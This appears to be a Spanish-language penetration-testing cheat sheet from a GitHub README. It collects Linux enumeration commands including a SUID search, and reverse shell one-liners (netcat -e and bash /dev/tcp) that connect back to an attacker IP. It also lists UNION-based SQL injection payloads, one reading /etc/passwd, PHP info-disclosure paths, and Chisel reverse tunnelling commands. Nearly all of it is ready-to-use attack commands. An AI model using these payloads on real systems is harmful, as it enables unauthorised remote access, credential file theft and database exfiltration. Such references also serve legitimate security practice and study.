 # General-CheatSheet
[PayloadAllTheThinks](https://github.com/swisskyrepo/PayloadsAllTheThings) Lista de payloads y bypasses para Web Application Security.

## Linux Commands
### FIND
* Listar los permisos SUID: ``` find  \-perm -4<PERMISOS> 2>/dev/null ```
### Sistema Operativo
* Conocer la IP de la máquina ``` hostname -I ```
* Permite ver los puertos abiertos de la máquina ``` netstat -nat ```
* Permite ver los procesos corriendo en la máquina ``` ps -faux ```
* Permite ver los archivos que tienen procesos abiertos ``` lsof -i:<PORT> ```
* Permite ver la descripción del sistema operativo ``` lsb_release -a ```
* Permite ver la versión del kernel ``` uname -a ```
### Python
* Crear un servidor de python en mi máquina local ``` python3 -m http.server <PORT> ```
### Reverse Shell
Se debe ejecutar en la máquina local primero alguna herramienta para poner en escucha el <PORT>,
como ejemplo usaremos **NetCat**: ```nc -lnvp <PORT>```

Y luego usar alguno de los siguientes comandos

* ``` nc -e /bin/bash <MY_IP> <PORT> ```
* ``` bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1 ```
* ``` bash -c "bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1" ```

## Information Disclose
### PHP
Archivos PHP con posible información sensible
```
/cgi-bin/phpinfo.php
/info.php
```

## SQL Injection
### List of Databases, Tables and Columns
Lista información de las bases de datos
> ' union select schema_name from information_schema.schemata-- -

Lista información de las tablas
> ' union select table_name from information_schema.tables where table_schema="<TABLE_NAME>"-- -

Lista información de las columnas
> ' union select column_name from information_schema.columns where table_schema=”<DB_NAME>” and table_name = '<TABLE_NAME>'-- -

Carga archivos del sistema operativo
> ' union select 1,2,load_file("/etc/passwd")

## Chisel
Dejar abierta una conexión como Server
```
./chisel server --revers -p <PORT>
```
Abrir una conexión como Client al Server, para este caso asiendo **Remote Port Forward**
```
./chisel client <IP_REMOTE>:<PORT> R:<PORT_LOCAL>:<IP_LOCAL>:<PORT_REMOTE>
```


